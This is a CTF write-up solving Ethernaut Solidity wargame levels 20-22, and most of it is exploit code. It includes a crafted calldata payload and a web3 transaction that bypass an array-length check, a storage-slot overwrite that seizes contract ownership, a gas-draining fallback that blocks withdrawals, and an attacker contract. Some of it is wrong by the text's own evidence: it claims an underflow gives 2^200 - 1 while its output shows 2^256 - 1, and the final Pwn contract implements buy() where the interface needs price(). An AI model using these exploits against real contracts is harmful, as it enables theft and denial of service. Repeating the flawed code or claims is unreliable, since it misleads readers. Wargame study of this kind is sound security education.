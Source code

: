 Title: Ethernaut wargame Lvl. 20-22
Date: 2018-12-27 10:01
Modified: 2018-12-27 10:01
Category: ctf
Tags: ctf, ethereum, solidity
Slug: Ethernaut_wargame2022
Authors: F3real
Summary: How to solve Ethernaut wargame lvl. 20-22

Ethernaut is a great wargame teaching a wide variety of Solidity security concepts. 
Currently, it offers 22 levels with varying difficulty. It can be found [here](https://ethernaut.zeppelin.solutions/).

[TOC]

## Lvl 20 Alien Codex

~~~solidity
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
~~~

Looking at the code we see that the first problem we have to overcome is modifier `contacted`. The length of the content we need to send has to be greater then 2^200, which is impossible. We can bypass this due to the fact that EVM doesn't validate an array's ABI-encoded length vs its actual payload. We will manually encode payload to send in a similar way we have done in [Blockchain CTF]({filename}/blockchain_ctf.md) challenges.

Payload:
~~~text
1d3d4c0b
0000000000000000000000000000000000000000000000000000000000000020
1000000000000000000000000000000000000000000000000000000000000000
~~~

First line is function identifier. It consists of first 32bits of `sha3("make_contact(bytes32[])")`.
The second line shows us an offset of array content, in our case it points to the third line. Array content starts with the length of the array, after which actual array elements come (in our case we will just leave it empty).

A lot of values for array length greater then 2^200 cause out of gas exception on CALLDATACOPY instruction. It is probably related to the internal way EVM handles it and is actually really interesting and probably worth looking into more.

~~~javascript
web3.eth.defaultAccount = web3.eth.accounts[0];
var tokenContractAddress = "0x7bd16279c000a2a2bad3080bbf04e111c12c5e9e"
var tx = {
    to : tokenContractAddress,
    data : "0x1d3d4c0b00000000000000000000000000000000000000000000000000000000000000201000000000000000000000000000000000000000000000000000000000000000"
}
web3.eth.sendTransaction(tx, (err,res)=>{console.log(err,res);});
~~~

Anyway, after we bypassed modifier second thing is to call `retract` function. This will cause underflow on `codex` array and change its length to 2^200 - 1.
This will enable us to access and modify all of the contract storage. As a reminder, the storage of the contract consists of `2**256` 32 byte slots.

Variables are ordered in the way they are declared. Address owner (inherited from Ownable) is occupying the first slot together with `boolean` variable `contacted` due to both of them being smaller than 32 bytes (`addresses` are 20 bytes and `boolean` is one byte). The second slot contains the length of `codex` array.

We can access both of them trough public getter or trough `getStorageAt` method of web3:
~~~javascript
web3.eth.getStorageAt(
  tokenContractAddress, 
  slot,
  function (err, result) {
    console.log((web3.toHex(result))); 
  }
);
~~~

Output:

~~~text
0: 0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
1: 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
~~~

The formula for locating slot corresponding to array index is:
```keccak256(slot) + index ```

This means we have to calculate index in the way it overflows max value and points to first slot:

```index = 2**256 - keccak256(bytes32(1))```

After we get our index we just have to call `revise` function and overwrite current owner address with ours to win.
The address has to be padded to the left with zeroes.

## Lvl 21 Denial

~~~solidity
pragma solidity ^0.4.24;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = 0xA9E;
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance/100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)();
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    function() payable {}

    // convenience function
    function contractBalance() view returns (uint) {
        return address(this).balance;
    }
}
~~~

To win this level we have to prevent the owner from withdrawing funds. Before funds get transferred to owner there is `partner.call.value(amountToSend)();`, which we can exploit. Since no gas amount has been specified, all gas will be sent to the fallback function of the partner address.

We can write a contract with a fallback function that will trigger assert and thus spend all gas, making it so that the owner can't withdraw.

~~~solidity
    function() public payable{
        assert(false);
    }
~~~

## Lvl 22 Shop

~~~solidity
pragma solidity 0.4.24;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
~~~

In this level, we need to exploit interface Buyer. Our function `price` has to return different values, in two different calls. 

The only problem is that we can't use storage since just modifying value costs 5000 gas and we have only 3000 available. Good thing is that `isSold` variable from Shop contract is public and we can access it with the gas we have.

~~~solidity
pragma solidity 0.4.24;

import './Shop.sol';

contract Pwn is Buyer {
  uint public price = 100;
  Shop shop = Shop(0x3a13E6F0EF2498CAbD0b49c7F5B1FA1AeD465125);
  
  function buy() external view returns (uint) {
      return shop.isSold()==true?0:100;  
  }
  
  function pwn() external{
      shop.buy();
  }
}
~~~